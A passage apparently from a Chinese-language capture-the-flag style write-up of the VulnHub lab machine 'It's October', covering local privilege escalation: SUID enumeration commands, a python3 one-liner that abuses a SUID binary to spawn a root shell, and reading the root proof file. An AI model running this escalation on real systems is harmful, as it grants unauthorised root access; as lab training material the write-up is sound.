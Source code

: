 www 的权限,接下来找找提权的点
```bash
sudo -l
find / -perm -u=s 2>/dev/null
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/It’s_October/It’s_October1/19.png)

python3.7 具有 suid 位
```bash
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
id
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/It’s_October/It’s_October1/20.png)

```bash
cd /root
cat proof.txt
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/It’s_October/It’s_October1/21.png)
